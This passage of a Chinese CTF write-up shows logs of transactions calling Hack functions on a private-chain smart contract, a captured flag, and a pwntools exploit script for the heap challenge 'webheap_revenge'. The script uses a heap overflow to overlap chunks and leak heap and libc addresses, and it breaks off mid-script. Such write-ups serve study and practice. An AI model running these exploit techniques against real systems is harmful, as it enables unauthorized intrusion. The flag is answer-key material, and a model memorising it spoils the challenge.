HexBytes('0x67a42027cdaf49dab8367765e3db2e1e2f781914d8bcef4fdaba78bea69a1aa8'), 'logIndex': 2, 'removed': False}), AttributeDict({'address': '0xfF25FACBE77eac4eD3603188CccB9431f1A26448', 'topics': [HexBytes('0x17307eab39ab6107e8899845ad3d59bd9653f200f220920489ca2b5937696c31'), HexBytes('0x000000000000000000000000ff25facbe77eac4ed3603188cccb9431f1a26448'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb')], 'data': '0x0000000000000000000000000000000000000000000000000000000000000001', 'blockNumber': 106737, 'transactionHash': HexBytes('0x7cd2dd1c1a87fbd424d766f6994e2124aaccbff3be82de6cbe9013a55c03e3f6'), 'transactionIndex': 0, 'blockHash': HexBytes('0x67a42027cdaf49dab8367765e3db2e1e2f781914d8bcef4fdaba78bea69a1aa8'), 'logIndex': 3, 'removed': False}), AttributeDict({'address': '0xfF25FACBE77eac4eD3603188CccB9431f1A26448', 'topics': [HexBytes('0x17307eab39ab6107e8899845ad3d59bd9653f200f220920489ca2b5937696c31'), HexBytes('0x000000000000000000000000c1401cc3fa69c089c7f756c8e31627364e5dfab6'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb')], 'data': '0x0000000000000000000000000000000000000000000000000000000000000001', 'blockNumber': 106737, 'transactionHash': HexBytes('0x7cd2dd1c1a87fbd424d766f6994e2124aaccbff3be82de6cbe9013a55c03e3f6'), 'transactionIndex': 0, 'blockHash': HexBytes('0x67a42027cdaf49dab8367765e3db2e1e2f781914d8bcef4fdaba78bea69a1aa8'), 'logIndex': 4, 'removed': False}), AttributeDict({'address': '0xfF25FACBE77eac4eD3603188CccB9431f1A26448', 'topics': [HexBytes('0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000000'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000001')], 'data': '0x', 'blockNumber': 106737, 'transactionHash': HexBytes('0x7cd2dd1c1a87fbd424d766f6994e2124aaccbff3be82de6cbe9013a55c03e3f6'), 'transactionIndex': 0, 'blockHash': HexBytes('0x67a42027cdaf49dab8367765e3db2e1e2f781914d8bcef4fdaba78bea69a1aa8'), 'logIndex': 5, 'removed': False}), AttributeDict({'address': '0xfF25FACBE77eac4eD3603188CccB9431f1A26448', 'topics': [HexBytes('0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000000'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000002')], 'data': '0x', 'blockNumber': 106737, 'transactionHash': HexBytes('0x7cd2dd1c1a87fbd424d766f6994e2124aaccbff3be82de6cbe9013a55c03e3f6'), 'transactionIndex': 0, 'blockHash': HexBytes('0x67a42027cdaf49dab8367765e3db2e1e2f781914d8bcef4fdaba78bea69a1aa8'), 'logIndex': 6, 'removed': False}), AttributeDict({'address': '0xfF25FACBE77eac4eD3603188CccB9431f1A26448', 'topics': [HexBytes('0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000000'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000003')], 'data': '0x', 'blockNumber': 106737, 'transactionHash': HexBytes('0x7cd2dd1c1a87fbd424d766f6994e2124aaccbff3be82de6cbe9013a55c03e3f6'), 'transactionIndex': 0, 'blockHash': HexBytes('0x67a42027cdaf49dab8367765e3db2e1e2f781914d8bcef4fdaba78bea69a1aa8'), 'logIndex': 7, 'removed': False}), AttributeDict({'address': '0xfF25FACBE77eac4eD3603188CccB9431f1A26448', 'topics': [HexBytes('0x17307eab39ab6107e8899845ad3d59bd9653f200f220920489ca2b5937696c31'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x0000000000000000000000002f7ccf235768b35e0ba171d7fa60690ef35e79ba')], 'data': '0x0000000000000000000000000000000000000000000000000000000000000001', 'blockNumber': 106737, 'transactionHash': HexBytes('0x7cd2dd1c1a87fbd424d766f6994e2124aaccbff3be82de6cbe9013a55c03e3f6'), 'transactionIndex': 0, 'blockHash': HexBytes('0x67a42027cdaf49dab8367765e3db2e1e2f781914d8bcef4fdaba78bea69a1aa8'), 'logIndex': 8, 'removed': False})]
2022-11-06 10:45:25.542 | INFO     | Poseidon.Blockchain:CallFunction:501 - 
[Contract][CallFunction]
[ContractAddress]0xfAe1d8a8942d8ba4F26a4EE1732EF094b66B97Eb
[Function]Hack1()
2022-11-06 10:45:25.790 | INFO     | Poseidon.Blockchain:SendTransaction:328 - 
[Account][SendTransaction][Traditional]
[TransactionHash]0xf035f31e7653c4acaa7c13c4b038fe0e391f1d5e1616fbbdde480538ee69966d
[Txn]{
  "chainId": 8888,
  "from": "0x2f7CcF235768B35e0ba171d7Fa60690EF35e79ba",
  "to": "0xfAe1d8a8942d8ba4F26a4EE1732EF094b66B97Eb",
  "nonce": 1,
  "value": 0,
  "gasPrice": "1.2 Gwei",
  "gas": 234482,
  "data": "0xbb3ee56d"
}
2022-11-06 10:45:31.468 | SUCCESS  | Poseidon.Blockchain:SendTransaction:336 - 
[Account][SendTransaction][Traditional][Success]
[TransactionHash]0xf035f31e7653c4acaa7c13c4b038fe0e391f1d5e1616fbbdde480538ee69966d
[BlockNumber]106739
[From]0x2f7CcF235768B35e0ba171d7Fa60690EF35e79ba
[To]0xfAe1d8a8942d8ba4F26a4EE1732EF094b66B97Eb
[Value]0 [GasUsed]174112
[Data]0xbb3ee56d
[Logs][AttributeDict({'address': '0x4C9229666BcBb8FEB354acBaf77cD408e4eD5D50', 'topics': [HexBytes('0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000000'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb')], 'data': '0x0000000000000000000000000000000000000000000000000000000000000005', 'blockNumber': 106739, 'transactionHash': HexBytes('0xf035f31e7653c4acaa7c13c4b038fe0e391f1d5e1616fbbdde480538ee69966d'), 'transactionIndex': 0, 'blockHash': HexBytes('0x1fde857c5ee5bfd97212f72c6c56768137bb7c4cf9781d0c0b62345ac54d0d37'), 'logIndex': 0, 'removed': False}), AttributeDict({'address': '0x4C9229666BcBb8FEB354acBaf77cD408e4eD5D50', 'topics': [HexBytes('0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x000000000000000000000000f8d8fe5bfd88174b29869563aa53d7698a7a36d5')], 'data': '0x0000000000000000000000000000000000000000000000000000000000000001', 'blockNumber': 106739, 'transactionHash': HexBytes('0xf035f31e7653c4acaa7c13c4b038fe0e391f1d5e1616fbbdde480538ee69966d'), 'transactionIndex': 0, 'blockHash': HexBytes('0x1fde857c5ee5bfd97212f72c6c56768137bb7c4cf9781d0c0b62345ac54d0d37'), 'logIndex': 1, 'removed': False}), AttributeDict({'address': '0xf8D8fe5bfd88174b29869563aA53d7698A7A36d5', 'topics': [HexBytes('0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef'), HexBytes('0x000000000000000000000000f8d8fe5bfd88174b29869563aa53d7698a7a36d5'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000001')], 'data': '0x', 'blockNumber': 106739, 'transactionHash': HexBytes('0xf035f31e7653c4acaa7c13c4b038fe0e391f1d5e1616fbbdde480538ee69966d'), 'transactionIndex': 0, 'blockHash': HexBytes('0x1fde857c5ee5bfd97212f72c6c56768137bb7c4cf9781d0c0b62345ac54d0d37'), 'logIndex': 2, 'removed': False}), AttributeDict({'address': '0xC1401CC3Fa69c089c7F756C8E31627364e5dfAb6', 'topics': [HexBytes('0x5a55b2d970d079d39ce4c5dc9ec6de52ebfc2bbcfc7466d62eea534ee8736673'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x000000000000000000000000f8d8fe5bfd88174b29869563aa53d7698a7a36d5'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000001')], 'data': '0x0000000000000000000000000000000000000000000000000000000000000001', 'blockNumber': 106739, 'transactionHash': HexBytes('0xf035f31e7653c4acaa7c13c4b038fe0e391f1d5e1616fbbdde480538ee69966d'), 'transactionIndex': 0, 'blockHash': HexBytes('0x1fde857c5ee5bfd97212f72c6c56768137bb7c4cf9781d0c0b62345ac54d0d37'), 'logIndex': 3, 'removed': False}), AttributeDict({'address': '0xf8D8fe5bfd88174b29869563aA53d7698A7A36d5', 'topics': [HexBytes('0x8c5be1e5ebec7d5bd14f71427d1e84f3dd0314c0f7b2291e5b200ac8c7c3b925'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x000000000000000000000000c1401cc3fa69c089c7f756c8e31627364e5dfab6'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000001')], 'data': '0x', 'blockNumber': 106739, 'transactionHash': HexBytes('0xf035f31e7653c4acaa7c13c4b038fe0e391f1d5e1616fbbdde480538ee69966d'), 'transactionIndex': 0, 'blockHash': HexBytes('0x1fde857c5ee5bfd97212f72c6c56768137bb7c4cf9781d0c0b62345ac54d0d37'), 'logIndex': 4, 'removed': False})]
2022-11-06 10:45:31.598 | SUCCESS  | Poseidon.Blockchain:ReadOnlyCallFunction:535 - 
[Contract][ReadOnlyCallFunction]
[ContractAddress]0xfAe1d8a8942d8ba4F26a4EE1732EF094b66B97Eb
[Function]GetMessageHashToSign()
[Result]b'&ZW\x90\xee\x8c\tt-\xf5\xc34,\x13.\xd4`\xc8J\xf3\xc0.\xaa\xc8*\xf0\x9f_\xb8_f\xa3'
2022-11-06 10:45:31.825 | INFO     | Poseidon.Blockchain:CallFunction:501 - 
[Contract][CallFunction]
[ContractAddress]0xfAe1d8a8942d8ba4F26a4EE1732EF094b66B97Eb
[Function]Hack3(27, '0xa5d1286d7def3b77cbb220472a211071c46324181555c0e2dcbf4f48acc0ff97', '0x5c513c2deadaca6d4f1931e49613e780200040b1e89d661b6ff47312bf344ab3')
2022-11-06 10:45:32.111 | INFO     | Poseidon.Blockchain:SendTransaction:328 - 
[Account][SendTransaction][Traditional]
[TransactionHash]0x55dddd7bedb3645edd116f0a52f3a8c4dec2461eb558d5183c989b47b81226b4
[Txn]{
  "chainId": 8888,
  "from": "0x2f7CcF235768B35e0ba171d7Fa60690EF35e79ba",
  "to": "0xfAe1d8a8942d8ba4F26a4EE1732EF094b66B97Eb",
  "nonce": 2,
  "value": 0,
  "gasPrice": "1.2 Gwei",
  "gas": 394418,
  "data": "0xe4db78d7000000000000000000000000000000000000000000000000000000000000001ba5d1286d7def3b77cbb220472a211071c46324181555c0e2dcbf4f48acc0ff975c513c2deadaca6d4f1931e49613e780200040b1e89d661b6ff47312bf344ab3"
}
2022-11-06 10:45:37.352 | SUCCESS  | Poseidon.Blockchain:SendTransaction:336 - 
[Account][SendTransaction][Traditional][Success]
[TransactionHash]0x55dddd7bedb3645edd116f0a52f3a8c4dec2461eb558d5183c989b47b81226b4
[BlockNumber]106741
[From]0x2f7CcF235768B35e0ba171d7Fa60690EF35e79ba
[To]0xfAe1d8a8942d8ba4F26a4EE1732EF094b66B97Eb
[Value]0 [GasUsed]277174
[Data]0xe4db78d7000000000000000000000000000000000000000000000000000000000000001ba5d1286d7def3b77cbb220472a211071c46324181555c0e2dcbf4f48acc0ff975c513c2deadaca6d4f1931e49613e780200040b1e89d661b6ff47312bf344ab3  
[Logs][AttributeDict({'address': '0xC1401CC3Fa69c089c7F756C8E31627364e5dfAb6', 'topics': [HexBytes('0xbeab3a2bb824b124a8a1eb465eec003338d61b414db132d37e9b3a984fdcf010'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x000000000000000000000000f8d8fe5bfd88174b29869563aa53d7698a7a36d5'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000001')], 'data': '0x0000000000000000000000000000000000000000000000000000000000000001', 'blockNumber': 106741, 'transactionHash': HexBytes('0x55dddd7bedb3645edd116f0a52f3a8c4dec2461eb558d5183c989b47b81226b4'), 'transactionIndex': 0, 'blockHash': HexBytes('0xbeeda48f51738b80200a0964a98d5ed9a2dc67b52ab5d840ce7103b4867f0b99'), 'logIndex': 0, 'removed': False}), AttributeDict({'address': '0xC1401CC3Fa69c089c7F756C8E31627364e5dfAb6', 'topics': [HexBytes('0xbeab3a2bb824b124a8a1eb465eec003338d61b414db132d37e9b3a984fdcf010'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x000000000000000000000000ff25facbe77eac4ed3603188cccb9431f1a26448'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000003')], 'data': '0x0000000000000000000000000000000000000000000000000000000000000001', 'blockNumber': 106741, 'transactionHash': HexBytes('0x55dddd7bedb3645edd116f0a52f3a8c4dec2461eb558d5183c989b47b81226b4'), 'transactionIndex': 0, 'blockHash': HexBytes('0xbeeda48f51738b80200a0964a98d5ed9a2dc67b52ab5d840ce7103b4867f0b99'), 'logIndex': 1, 'removed': False}), AttributeDict({'address': '0xC1401CC3Fa69c089c7F756C8E31627364e5dfAb6', 'topics': [HexBytes('0xbeab3a2bb824b124a8a1eb465eec003338d61b414db132d37e9b3a984fdcf010'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x000000000000000000000000f8d8fe5bfd88174b29869563aa53d7698a7a36d5'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000001')], 'data': '0x0000000000000000000000000000000000000000000000000000000000000001', 'blockNumber': 106741, 'transactionHash': HexBytes('0x55dddd7bedb3645edd116f0a52f3a8c4dec2461eb558d5183c989b47b81226b4'), 'transactionIndex': 0, 'blockHash': HexBytes('0xbeeda48f51738b80200a0964a98d5ed9a2dc67b52ab5d840ce7103b4867f0b99'), 'logIndex': 2, 'removed': False}), AttributeDict({'address': '0x4C9229666BcBb8FEB354acBaf77cD408e4eD5D50', 'topics': [HexBytes('0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x000000000000000000000000c1401cc3fa69c089c7f756c8e31627364e5dfab6')], 'data': '0x0000000000000000000000000000000000000000000000000000000000000001', 'blockNumber': 106741, 'transactionHash': HexBytes('0x55dddd7bedb3645edd116f0a52f3a8c4dec2461eb558d5183c989b47b81226b4'), 'transactionIndex': 0, 'blockHash': HexBytes('0xbeeda48f51738b80200a0964a98d5ed9a2dc67b52ab5d840ce7103b4867f0b99'), 'logIndex': 3, 'removed': False}), AttributeDict({'address': '0xf8D8fe5bfd88174b29869563aA53d7698A7A36d5', 'topics': [HexBytes('0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef'), HexBytes('0x000000000000000000000000c1401cc3fa69c089c7f756c8e31627364e5dfab6'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000003')], 'data': '0x', 'blockNumber': 106741, 'transactionHash': HexBytes('0x55dddd7bedb3645edd116f0a52f3a8c4dec2461eb558d5183c989b47b81226b4'), 'transactionIndex': 0, 'blockHash': HexBytes('0xbeeda48f51738b80200a0964a98d5ed9a2dc67b52ab5d840ce7103b4867f0b99'), 'logIndex': 4, 'removed': False}), AttributeDict({'address': '0xC1401CC3Fa69c089c7F756C8E31627364e5dfAb6', 'topics': [HexBytes('0x5a55b2d970d079d39ce4c5dc9ec6de52ebfc2bbcfc7466d62eea534ee8736673'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x000000000000000000000000ff25facbe77eac4ed3603188cccb9431f1a26448'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000003')], 'data': '0x0000000000000000000000000000000000000000000000000000000000000001', 'blockNumber': 106741, 'transactionHash': HexBytes('0x55dddd7bedb3645edd116f0a52f3a8c4dec2461eb558d5183c989b47b81226b4'), 'transactionIndex': 0, 'blockHash': HexBytes('0xbeeda48f51738b80200a0964a98d5ed9a2dc67b52ab5d840ce7103b4867f0b99'), 'logIndex': 5, 'removed': False})]
2022-11-06 10:45:37.561 | INFO     | Poseidon.Blockchain:CallFunction:501 - 
[Contract][CallFunction]
[ContractAddress]0xfAe1d8a8942d8ba4F26a4EE1732EF094b66B97Eb
[Function]Hack2()
2022-11-06 10:45:37.860 | INFO     | Poseidon.Blockchain:SendTransaction:328 - 
[Account][SendTransaction][Traditional]
[TransactionHash]0xb1b1dfd93983fc382eb52c6372825799d45069d9c8c1948850d3c3d61b94a151
[Txn]{
  "chainId": 8888,
  "from": "0x2f7CcF235768B35e0ba171d7Fa60690EF35e79ba",
  "to": "0xfAe1d8a8942d8ba4F26a4EE1732EF094b66B97Eb",
  "nonce": 3,
  "value": 0,
  "gasPrice": "1.2 Gwei",
  "gas": 383959,
  "data": "0x5ac174d0"
}
2022-11-06 10:45:43.324 | SUCCESS  | Poseidon.Blockchain:SendTransaction:336 - 
[Account][SendTransaction][Traditional][Success]
[TransactionHash]0xb1b1dfd93983fc382eb52c6372825799d45069d9c8c1948850d3c3d61b94a151
[BlockNumber]106743
[From]0x2f7CcF235768B35e0ba171d7Fa60690EF35e79ba
[To]0xfAe1d8a8942d8ba4F26a4EE1732EF094b66B97Eb
[Value]0 [GasUsed]191895
[Data]0x5ac174d0
[Logs][AttributeDict({'address': '0xC1401CC3Fa69c089c7F756C8E31627364e5dfAb6', 'topics': [HexBytes('0xbeab3a2bb824b124a8a1eb465eec003338d61b414db132d37e9b3a984fdcf010'), HexBytes('0x000000000000000000000000c1401cc3fa69c089c7f756c8e31627364e5dfab6'), HexBytes('0x000000000000000000000000f8d8fe5bfd88174b29869563aa53d7698a7a36d5'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000001')], 'data': '0x0000000000000000000000000000000000000000000000000000000000000539', 'blockNumber': 106743, 'transactionHash': HexBytes('0xb1b1dfd93983fc382eb52c6372825799d45069d9c8c1948850d3c3d61b94a151'), 'transactionIndex': 0, 'blockHash': HexBytes('0xd0b0d84b0131b1a84eaf05abbee6ca77946f250dbbe0ba8920aec922e7d0d39e'), 'logIndex': 0, 'removed': False}), AttributeDict({'address': '0xf8D8fe5bfd88174b29869563aA53d7698A7A36d5', 'topics': [HexBytes('0x8c5be1e5ebec7d5bd14f71427d1e84f3dd0314c0f7b2291e5b200ac8c7c3b925'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x000000000000000000000000c1401cc3fa69c089c7f756c8e31627364e5dfab6'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000001')], 'data': '0x', 'blockNumber': 106743, 'transactionHash': HexBytes('0xb1b1dfd93983fc382eb52c6372825799d45069d9c8c1948850d3c3d61b94a151'), 'transactionIndex': 0, 'blockHash': HexBytes('0xd0b0d84b0131b1a84eaf05abbee6ca77946f250dbbe0ba8920aec922e7d0d39e'), 'logIndex': 1, 'removed': False}), AttributeDict({'address': '0x4C9229666BcBb8FEB354acBaf77cD408e4eD5D50', 'topics': [HexBytes('0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef'), HexBytes('0x000000000000000000000000c1401cc3fa69c089c7f756c8e31627364e5dfab6'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb')], 'data': '0x0000000000000000000000000000000000000000000000000000000000000539', 'blockNumber': 106743, 'transactionHash': HexBytes('0xb1b1dfd93983fc382eb52c6372825799d45069d9c8c1948850d3c3d61b94a151'), 'transactionIndex': 0, 'blockHash': HexBytes('0xd0b0d84b0131b1a84eaf05abbee6ca77946f250dbbe0ba8920aec922e7d0d39e'), 'logIndex': 2, 'removed': False}), AttributeDict({'address': '0xf8D8fe5bfd88174b29869563aA53d7698A7A36d5', 'topics': [HexBytes('0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x000000000000000000000000c1401cc3fa69c089c7f756c8e31627364e5dfab6'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000001')], 'data': '0x', 'blockNumber': 106743, 'transactionHash': HexBytes('0xb1b1dfd93983fc382eb52c6372825799d45069d9c8c1948850d3c3d61b94a151'), 'transactionIndex': 0, 'blockHash': HexBytes('0xd0b0d84b0131b1a84eaf05abbee6ca77946f250dbbe0ba8920aec922e7d0d39e'), 'logIndex': 3, 'removed': False}), AttributeDict({'address': '0xC1401CC3Fa69c089c7F756C8E31627364e5dfAb6', 'topics': [HexBytes('0x5a55b2d970d079d39ce4c5dc9ec6de52ebfc2bbcfc7466d62eea534ee8736673'), HexBytes('0x000000000000000000000000c1401cc3fa69c089c7f756c8e31627364e5dfab6'), HexBytes('0x000000000000000000000000f8d8fe5bfd88174b29869563aa53d7698a7a36d5'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000001')], 'data': '0x0000000000000000000000000000000000000000000000000000000000000539', 'blockNumber': 106743, 'transactionHash': HexBytes('0xb1b1dfd93983fc382eb52c6372825799d45069d9c8c1948850d3c3d61b94a151'), 'transactionIndex': 0, 'blockHash': HexBytes('0xd0b0d84b0131b1a84eaf05abbee6ca77946f250dbbe0ba8920aec922e7d0d39e'), 'logIndex': 4, 'removed': False}), AttributeDict({'address': '0x4C9229666BcBb8FEB354acBaf77cD408e4eD5D50', 'topics': [HexBytes('0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x000000000000000000000000c1401cc3fa69c089c7f756c8e31627364e5dfab6')], 'data': '0x0000000000000000000000000000000000000000000000000000000000000539', 'blockNumber': 106743, 'transactionHash': HexBytes('0xb1b1dfd93983fc382eb52c6372825799d45069d9c8c1948850d3c3d61b94a151'), 'transactionIndex': 0, 'blockHash': HexBytes('0xd0b0d84b0131b1a84eaf05abbee6ca77946f250dbbe0ba8920aec922e7d0d39e'), 'logIndex': 5, 'removed': False}), AttributeDict({'address': '0xf8D8fe5bfd88174b29869563aA53d7698A7A36d5', 'topics': [HexBytes('0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef'), HexBytes('0x000000000000000000000000c1401cc3fa69c089c7f756c8e31627364e5dfab6'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000002')], 'data': '0x', 'blockNumber': 106743, 'transactionHash': HexBytes('0xb1b1dfd93983fc382eb52c6372825799d45069d9c8c1948850d3c3d61b94a151'), 'transactionIndex': 0, 'blockHash': HexBytes('0xd0b0d84b0131b1a84eaf05abbee6ca77946f250dbbe0ba8920aec922e7d0d39e'), 'logIndex': 6, 'removed': False}), AttributeDict({'address': '0xC1401CC3Fa69c089c7F756C8E31627364e5dfAb6', 'topics': [HexBytes('0x5a55b2d970d079d39ce4c5dc9ec6de52ebfc2bbcfc7466d62eea534ee8736673'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x000000000000000000000000f8d8fe5bfd88174b29869563aa53d7698a7a36d5'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000002')], 'data': '0x0000000000000000000000000000000000000000000000000000000000000539', 'blockNumber': 106743, 'transactionHash': HexBytes('0xb1b1dfd93983fc382eb52c6372825799d45069d9c8c1948850d3c3d61b94a151'), 'transactionIndex': 0, 'blockHash': HexBytes('0xd0b0d84b0131b1a84eaf05abbee6ca77946f250dbbe0ba8920aec922e7d0d39e'), 'logIndex': 7, 'removed': False}), AttributeDict({'address': '0x4C9229666BcBb8FEB354acBaf77cD408e4eD5D50', 'topics': [HexBytes('0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x000000000000000000000000c1401cc3fa69c089c7f756c8e31627364e5dfab6')], 'data': '0x0000000000000000000000000000000000000000000000000000000000000001', 'blockNumber': 106743, 'transactionHash': HexBytes('0xb1b1dfd93983fc382eb52c6372825799d45069d9c8c1948850d3c3d61b94a151'), 'transactionIndex': 0, 'blockHash': HexBytes('0xd0b0d84b0131b1a84eaf05abbee6ca77946f250dbbe0ba8920aec922e7d0d39e'), 'logIndex': 8, 'removed': False}), AttributeDict({'address': '0xf8D8fe5bfd88174b29869563aA53d7698A7A36d5', 'topics': [HexBytes('0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef'), HexBytes('0x000000000000000000000000c1401cc3fa69c089c7f756c8e31627364e5dfab6'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000001')], 'data': '0x', 'blockNumber': 106743, 'transactionHash': HexBytes('0xb1b1dfd93983fc382eb52c6372825799d45069d9c8c1948850d3c3d61b94a151'), 'transactionIndex': 0, 'blockHash': HexBytes('0xd0b0d84b0131b1a84eaf05abbee6ca77946f250dbbe0ba8920aec922e7d0d39e'), 'logIndex': 9, 'removed': False}), AttributeDict({'address': '0xC1401CC3Fa69c089c7F756C8E31627364e5dfAb6', 'topics': [HexBytes('0x5a55b2d970d079d39ce4c5dc9ec6de52ebfc2bbcfc7466d62eea534ee8736673'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x000000000000000000000000f8d8fe5bfd88174b29869563aa53d7698a7a36d5'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000001')], 'data': '0x0000000000000000000000000000000000000000000000000000000000000001', 'blockNumber': 106743, 'transactionHash': HexBytes('0xb1b1dfd93983fc382eb52c6372825799d45069d9c8c1948850d3c3d61b94a151'), 'transactionIndex': 0, 'blockHash': HexBytes('0xd0b0d84b0131b1a84eaf05abbee6ca77946f250dbbe0ba8920aec922e7d0d39e'), 'logIndex': 10, 'removed': False}), AttributeDict({'address': '0xC1401CC3Fa69c089c7F756C8E31627364e5dfAb6', 'topics': [HexBytes('0x23ddb4dbb8577d03ebf1139a17a5c016963c43761e8ccd21eaa68e9b8ce6a68e')], 'data': '0x', 'blockNumber': 106743, 'transactionHash': HexBytes('0xb1b1dfd93983fc382eb52c6372825799d45069d9c8c1948850d3c3d61b94a151'), 'transactionIndex': 0, 'blockHash': HexBytes('0xd0b0d84b0131b1a84eaf05abbee6ca77946f250dbbe0ba8920aec922e7d0d39e'), 'logIndex': 11, 'removed': False})]
```


进入`Option 3`，获取`flag`。


```flag
flag{dbf227cc-3cbe-4237-b68b-2269e00a3ed0}
```

# pwn
## webheap_revenge
和webheap差不多，只是uaf改成了堆溢出，先改size造成重叠，然后申请出来就可以使用，泄露libc采用分割unsorted的方法就行了。
exp如下
```python
from pwn import *
context.log_level = 'debug'

#sh = process('./webheap_revenge')
sh = remote("172.51.122.128", 9999)
libc = ELF("./libc-2.27.so")
def make_qword(val):
    return b'\x83' + p64(val)
def make_dword(val):
    return b'\x86' + p32(val)
def make_str(str):
    return b'\xbd' + len(str).to_bytes(1,'little') + str
def packet(opt,idx,size,ctt):
    payload = b'\xb9\x05'
    payload += make_dword(opt)
    payload += make_qword(idx)
    payload += make_qword(size)
    payload += make_str(ctt)
    payload += make_qword(0)
    return payload


def sendpkt(opt,idx,size=0x30,ctt=b'aaa'):
    payload = packet(opt,idx,size,ctt)
    sh.sendlineafter(b'Packet length: ',str(len(payload)).encode())
    sh.sendafter(b'Content: ',payload)
script = ''
def dbg():
    gdb.attach(sh,script)
    pause()
def rbt_bpt(off):
    global script
    script += f'b * $rebase({off:#x})\n'
# rbt_bpt(0x3d80)
def add(idx,size):
    sendpkt(0,idx,size)
def show(idx):
    sendpkt(1,idx)
def dele(idx):
    sendpkt(2,idx)
def edit(idx,ctt):
    sendpkt(3,idx,ctt=ctt)
# dbg()
# sendpkt(0x0,0x0,0x520)
# sendpkt(0x0,0x1,0x30)
add(0, 0x28)
add(1, 0x68)
add(2, 0x430)
add(3, 0x68)
add(4, 0x68)
edit(0, b'a' * 0x28 + p64(0xa1))
edit(2, p64(0) + p64(0x421) + p64(0) + p64(0x421)+p64(0)+p64(0x411))

dele(1)  # 0xa0
add(4, 0x98)

show(4)
heap_base = (u64(sh.recv(5).ljust(8, b'\x00')) << 12) - 0x13000
success("heap base is leaked ==> " + hex(heap_base))

dele(2)
add(5, 0x70)
show(5)

libc_base = u64(sh.recvuntil("\x7f")[-6:].ljust(8, b'\x00')) - 0x10 - 96 - libc.symbols["__malloc_hook"] -0x400
